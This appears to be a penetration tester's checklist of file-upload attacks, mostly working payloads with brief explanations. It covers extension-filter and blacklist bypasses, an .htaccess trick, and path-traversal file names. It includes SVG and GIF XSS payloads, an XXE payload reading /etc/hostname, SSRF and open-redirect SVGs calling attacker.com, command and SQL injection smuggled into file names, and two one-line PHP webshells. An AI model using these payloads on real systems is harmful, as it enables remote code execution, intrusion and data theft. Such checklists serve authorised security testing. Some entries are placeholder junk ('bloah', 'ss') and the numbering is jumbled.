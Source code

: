 1. Try uploading a webshell

2. If the **application only checks the content-type** which has the MIME type of the file, then try to ulpload a webshell

3. Upload file in different directory where execution of certain files may not have been restricted by naming the file **../exploit.php** or **..%2fexploit.php** i.e. encoding the slash

4. bloah

5. If blacklisting is done the application may fail to recognise some different extension which server similar purpose like
```text
.php .php5 etc
```

6. **Making changes to config file** by uploading different configuration to configuraton file in-order to instruct the server to excute a particular extension, like in an *apache server* uploading config by keeping the **file name as .htaccess** and **Content-Type to text/plain** and contents of file as:
```php
AddType application/x-httpd-php .l33t
```

7. Obfuscating extensions to bypass blacklists
	1. Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or JPG image: **_exploit.php.jpg**

	2. Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: ***exploit.php.***
	3. Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: ***exploit%2Ephp***
	4. Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: **exploit.asp;.jpg or *exploit.asp%00.jpg***
	5. Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like xC0 x2E, xC4 xAE or xC0 xAE may be translated to x2E if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
	6. If application strips away dangerous extensions but if it's not doing it recursively then we can make the file still have the extension: **_exploit.p.phphp_**
	7. ss

8. When webserver checks the contents of the file then try replacing the starting characters which are constant for file types like JPEG always starts with **FF D8 FF**. Make a polyglot payload [[Vulns (checklist)/File upload/archive#^64b892|read]]

9. [[File uploads#Exploiting file upload race conditions]]


11. Test XSS through file upload
Upload **.svg** file like following:
```XML
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("XSS");
   </script>
</svg>
```
with the content-type
```http
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml
```
We could also use a **.gif** file for XSS
```text
GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
```
Try naming the file with an XSS payload like **filename="svg onload=alert(document.domain)>"** or  **filename="58832_300x300.jpg\<svg onload=confirm()>"** 

11. Make an XXE payload in a file with extension such as .doc, .xls, .svg
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="40" x="0" y="16">&xxe;</text>
</svg>
```
13. Instead of **POST** method try using **PUT**

15. Try capatalizing/modifying extension like **.php** to **.pHp**

16. Extension impact
```text
ASP, ASPX, PHP5, PHP, PHP3 -> Webshell, RCE

SVG -> Stored XSS, SSRF, XXE

GIF -> Stored XSS, SSRF

CSV -> CSV injection

XML -> XXE

AVI -> LFI, SSRF

HTML, JS -> HTML injection, XSS, Open redirect

PNG, JPEG -> Pixel flood attack (DoS)

ZIP -> RCE via LFI, DoS

PDF, PPTX -> SSRF, BLIND XXE
```
15. Blacklisting bypass
```text
PHP → .phtm, phtml, .phps, .pht, .php2, .php3, .php4, .php5, .shtml, .phar, .pgif, .inc

ASP → asp, .aspx, .cer, .asa

Jsp → .jsp, .jspx, .jsw, .jsv, .jspf

Coldfusion → .cfm, .cfml, .cfc, .dbm

Using random capitalization → .pHp, .pHP5, .PhAr
```
16. White-listing bypass
```text
file.jpg.php
file.php.jpg
file.php.blah123jpg
file.php%00.jpg
file.php\x00.jpg this can be done while uploading the file too, name it file.phpD.jpg and change the D (44) in hex to 00.

file.php%00
file.php%20
file.php%0d%0a.jpg
file.php.....
file.php/
file.php.\
file.php#.png
file.
.html
```
17. Try [[SQL injection|Blind SQL injection]] using payloads like **'sleep(10).jpg** or **sleep(10)-- -.jpg**

19. Try [[command injection|command injection]] using payloads like **; sleep 10;**

20. [[Vulns (checklist)/SSRF/SSRF|SSRF]] through **.svg** file
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="https://attacker.com/picture.jpg" /></svg>
```
21. Trying **Open-redirect** using an **.svg** extension
```xml
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='https://attacker.com'"
xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
</svg>
</code>
```


---
## Webshells
```php
<?php system($_GET['cmd']); ?>
```
```php
(<?=`$_GET[x]`?>)
```

